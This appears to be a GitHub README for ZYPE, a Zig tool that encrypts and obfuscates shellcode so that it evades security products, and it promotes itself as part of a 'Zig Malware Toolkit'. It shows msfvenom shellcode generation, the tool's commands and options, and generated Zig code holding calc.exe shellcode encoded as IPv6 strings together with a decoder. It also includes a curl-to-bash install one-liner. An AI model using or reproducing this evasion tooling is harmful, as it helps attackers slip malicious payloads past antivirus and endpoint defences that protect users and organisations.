

# ZYPE: Your Payload Encryptor

<p align="center">
  
  
  
  
  

</p>

<p align="center">
  <a href="#whats-zype">What's ZYPE?</a> •
  <a href="#showcase">Showcase</a> •
  <a href="#installation">Installation</a> •
  <a href="#usage">Usage</a> •
  <a href="#test">Test</a> •
  <a href="#contribution">Contribution</a> •
  <a href="#zig-malware-toolkit">Zig Malware Toolkit</a> •
  <a href="#star-history">Star History</a>
</p>

<p height="300" align="center">
  
</p>

## What's ZYPE?

ZYPE: Zig Yield Payload Encryptor - Transform your shellcode into undetectable, obfuscated payloads that bypass modern security solutions.

- ⚡ Lightning Fast: Written in Zig for optimal performance and memory safety
- 🎯 Multi-Method Obfuscation: Support for AES, RC4, XOR encryption plus MAC/IPv4/IPv6/UUID address obfuscation
- 🌐 Cross-Platform Compatible: Generated decoder templates work on Windows, Linux, and macOS without API dependencies
- 🛠️ Developer Friendly: Interactive mode for easy setup, plus command-line interface for automation
- 🔒 Advanced Evasion: Multiple encoding layers make static analysis nearly impossible
- 📦 Complete Solution: Generates both obfuscated payload data and ready-to-compile decoder templates
- 🚀 Zero Dependencies: Self-contained tool with no external requirements

## Showcase

In the following example, I will use MSFvenom to generate a Windows shellcode to execute calc.exe and use ZYPE to do the IPv6 obfuscation. Let's first generate the shellcode.

```bash
msfvenom -p windows/exec CMD=calc.exe -f raw -o shellcode.bin
```

After that, we use ZYPE to help use do the obfuscation.

```bash
zype -f shellcode.bin -m ipv6 > shellcode.zig
```

This will generate the encrypted/obfuscated shellcode and the function to decrypt/deobfuscate it in a Zig file. This is the output.

```zig
const std = @import("std");
const net = std.net;

const IPV6_ARRAY: [13][]const u8 = [_][]const u8{
    "fce8:8200:0000:6089:e531:c064:8b50:308b",
    "520c:8b52:148b:7228:0fb7:4a26:31ff:ac3c",
    "617c:022c:20c1:cf0d:01c7:e2f2:5257:8b52",
    "108b:4a3c:8b4c:1178:e348:01d1:518b:5920",
    "01d3:8b49:18e3:3a49:8b34:8b01:d631:ffac",
    "c1cf:0d01:c738:e075:f603:7df8:3b7d:2475",
    "e458:8b58:2401:d366:8b0c:4b8b:581c:01d3",
    "8b04:8b01:d089:4424:245b:5b61:595a:51ff",
    "e05f:5f5a:8b12:eb8d:5d6a:018d:85b2:0000",
    "0050:6831:8b6f:87ff:d5bb:f0b5:a256:68a6",
    "95bd:9dff:d53c:067c:0a80:fbe0:7505:bb47",
    "1372:6f6a:0053:ffd5:6361:6c63:2e65:7865",
    "0000:0000:0000:0000:0000:0000:0000:0000"
};
const NUMBER_OF_ELEMENTS: usize = 13;

fn ipv6Deobfuscation(ipv6_array: []const []const u8, allocator: std.mem.Allocator) ![]u8 {
    var buffer = try allocator.alloc(u8, ipv6_array.len * 16);
    var offset: usize = 0;

    for (ipv6_array) |ip| {
        const addr = net.Address.parseIp6(ip, 0) catch return error.InvalidIpFormat;
        const ip_bytes = @as([16]u8, @bitCast(addr.in6.sa.addr));
        @memcpy(buffer[offset..offset + 16], &ip_bytes);
        offset += 16;
    }

    return buffer;
}

pub fn main() !void {
    var gpa = std.heap.GeneralPurposeAllocator(.{}){};
    defer _ = gpa.deinit();
    const allocator = gpa.allocator();

    const shellcode = try ipv6Deobfuscation(&IPV6_ARRAY, allocator);
    defer allocator.free(shellcode);
    std.debug.print("Decrypted shellcode length: {}\n", .{shellcode.len});
    std.debug.print("Decrypted shellcode: {any}\n", .{shellcode});
}
```

## Installation

ZYPE is now currently support Linux only, but the Windows version will be released soon.

You can simply copy and paste the following one-liner to install ZYPE.

```bash
bash <(curl -sSL https://raw.githubusercontent.com/CX330Blake/zype/main/install.sh)
```

> [!WARNING]  
> Never execute any untrusted script on your machine. Read the script first.

On the other hand, you can clone this repo and use the following command to build your own ZYRA biary.

```bash
git clone https://github.com/CX330Blake/ZYPE
cd ZYPE
# You can change the build flag on your own
zig build --release=fast
```

## Usage

```
 ___  _   _ ___  ____
   /   \_/  |__] |___
  /__   |   |    |___

ZYPE shellcode encryptor v0.1.0
Copyright (C) 2025 @CX330Blake.
All rights reserved.

ZYPE v0.1.0 - Shellcode encryptor and obfuscator

Usage: zype [options]

Options:
  -h, --help              Show this help message
  -v, --version           Show version information
  -i, --interactive       Interactive mode (guided setup)
  -m, --method <type>     Encryption/obfuscation method
  -f, --file <path>       Input shellcode file path

Supported Methods:
  mac                     MAC address obfuscation
  ipv4                    IPv4 address obfuscation
  ipv6                    IPv6 address obfuscation
  uuid                    UUID obfuscation
  aes                     AES encryption (CTR mode)
  rc4                     RC4 encryption
  xor                     XOR encryption

Examples:
  zype -i                                         # Interactive mode
  zype -m aes -f shellcode.bin > shellcode.zig    # AES encrypt shellcode.bin
  zype -m mac -f shellcode.bin                    # MAC address obfuscation
  zype --method rc4 --file sc.bin                 # RC4 encryption

Notes:
  - Interactive mode provides guided setup for all options
  - Output includes both obfuscated data and decoder template
  - Generated code is cross-platform compatible (no Windows APIs)
```

## Test

You can run the following command in the **example** directory to test the ZYPE is working normally.

```bash
./show.sh
```

You should see no error and the shellcode is decrypted/deobfuscated.

## Contribution

This project is maintained by [@CX330Blake](https://github.com/CX330Blake/). PRs are welcome if you also want to contribute to this project.

## Zig Malware Toolkit

If you want to learn more about Zig for malware, here's some tools for malware development.

- [ZYPE](https://github.com/cx330blake/zype)
- [ZYRA](https://github.com/cx330blake/zyra)

## Star history

[](https://www.star-history.com/#CX330Blake/ZYPE&Date)
